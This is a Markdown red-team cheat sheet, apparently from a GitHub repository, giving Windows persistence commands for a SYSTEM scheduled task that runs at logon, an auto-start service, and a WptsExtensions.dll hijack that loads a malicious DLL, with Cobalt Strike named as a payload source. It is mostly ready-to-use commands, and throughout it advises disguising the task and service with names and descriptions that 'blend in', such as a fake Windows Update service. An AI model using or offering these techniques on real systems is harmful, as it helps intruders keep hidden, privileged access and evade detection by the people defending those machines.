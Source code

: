*Upload binary to system folder and create scheduled task pointing at that binary for execution. Can change OfficeUpdater to a different task name that blends into target system.*

| Description | Command |
|-------------|---------|
| Add task | `schtasks /Create /F /RU system /SC ONLOGON /TN OfficeUpdater /TR <FILE_PATH>` |
| Query task in verbose mode | `schtasks /query /tn OfficeUpdater /fo list /v` |
| Delete task | `schtasks /delete /tn OfficeUpdater /f` |
| Run Task Manually | `schtasks /run /tn OfficeUpdater` |
| Optional: Can call schtasks to import a task as XML | `schtasks /create /tn OfficeUpdater /xml <FILE_PATH>.xml /f` |

## SERVICE CREATION

*Upload binary to folder and create service pointing at that binary. Can change the service description and display name to blend into the target system.*

| Description | Command |
|-------------|---------|
| Add service (Change displayname to a name that blends in with your executable) | `sc create <SERVICE_NAME> binpath= "<FILE_PATH>" start= auto displayname= "Windows Update Proxy Service"` |
| Assign description to service (Change description to a phrase that blends in with your service information) | `sc description <SERVICE_NAME> "This service ensures Windows Update works correctly in proxy environments"` |
| Query Service config | `sc qc <SERVICE_NAME>` |
| Query service status | `sc query <SERVICE_NAME>` |
| Query service description | `sc qdescription <SERVICE_NAME>` |
| Delete service | `sc delete <SERVICE_NAME>` |
| OPTIONAL: Can execute sc.exe commands remotely by referencing the remote system after sc.exe | `sc \\<IP_ADDRESS> qc <SERVICE_NAME>` |

## WINDOWS 10 .DLL HIJACK (WPTSEXTENSIONS)

*Upload malicious.dll named WptsExtensions.dll (works with default Cobalt Strike .dll) anywhere in system path, reboot machine, and the schedule service will load the malicious WptsExtensions.dll*

| Description | Command |
|-------------|---------|
| List folders in PATH | `reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PATH` |
| Upload malicious.dll named 'WptsExtensions.dll' to folder in PATH | Upload malicious.dll named 'WptsExtensions.dll' to folder in PATH |
| Reboot target computer (schedule service will load WptsExtensions.dll on startup) | Reboot target computer (schedule service will load WptsExtensions.dll on startup) |
| Remove uploaded WptsExtensions.dll to remove persistence | Remove uploaded WptsExtensions.dll to remove persistence |

*Note: Many .dll hijacks exist on Windows systems and a simple Google search should list all the vulnerable filenames, services, and even contain examples of how to execute a given .dll hijack technique on a system.*
